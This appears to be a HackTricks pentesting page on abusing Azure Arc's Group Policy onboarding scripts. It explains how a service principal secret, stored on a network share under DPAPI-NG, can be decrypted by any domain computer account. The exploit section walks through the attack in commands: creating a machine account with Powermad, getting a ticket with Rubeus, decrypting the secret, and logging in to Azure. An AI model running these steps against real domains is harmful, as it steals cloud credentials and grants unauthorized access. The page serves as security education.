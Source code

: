 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc allows for the integration of new internal servers (joined domain servers) into Azure Arc using the Group Policy Object method. To facilitate this, Microsoft provides a deployment toolkit necessary for initiating the onboarding procedure. Inside the ArcEnableServerGroupPolicy.zip file, the following scripts can be found: DeployGPO.ps1, EnableAzureArc.ps1, and AzureArcDeployment.psm1.

When executed, the DeployGPO.ps1 script performs the following actions:

1. Creates the Azure Arc Servers Onboarding GPO within the local domain.
2. Copies the EnableAzureArc.ps1 onboarding script to the designated network share created for the onboarding process, which also contains the Windows installer package.

When running this script, sys admins need to provide two main parameters: **ServicePrincipalId** and **ServicePrincipalClientSecret**. Additionally, it requires other parameters such as the domain, the FQDN of the server hosting the share, and the share name. Further details such as the tenant ID, resource group, and other necessary information must also be provided to the script.

An encrypted secret is generated in the AzureArcDeploy directory on the specified share using DPAPI-NG encryption. The encrypted secret is stored in a file named encryptedServicePrincipalSecret. Evidence of this can be found in the DeployGPO.ps1 script, where the encryption is performed by calling ProtectBase64 with $descriptor and $ServicePrincipalSecret as inputs. The descriptor consists of the Domain Computer and Domain Controller group SIDs, ensuring that the ServicePrincipalSecret can only be decrypted by the Domain Controllers and Domain Computers security groups, as noted in the script comments.

```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```

### Exploit

We have the follow conditions:

1. We have successfully penetrated the internal network.
2. We have the capability to create or assume control of a computer account within Active Directory.
3. We have discovered a network share containing the AzureArcDeploy directory.

There are several methods to obtain a machine account within an AD environment. One of the most common is exploiting the machine account quota. Another method involves compromising a machine account through vulnerable ACLs or various other misconfigurations.

```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Once a machine account is obtained, it is possible to authenticate using this account. We can either use the runas.exe command with the netonly flag or use pass-the-ticket with Rubeus.exe.

```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```

By having the TGT for our computer account stored in memory, we can use the following script to decrypt the service principal secret.

```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```

Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

At this point, we can gather the remaining information needed to connect to Azure from the ArcInfo.json file, which is stored on the same network share as the encryptedServicePrincipalSecret file. This file contains details such as: TenantId, servicePrincipalClientId, ResourceGroup, and more. With this information, we can use Azure CLI to authenticate as the compromised service principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}



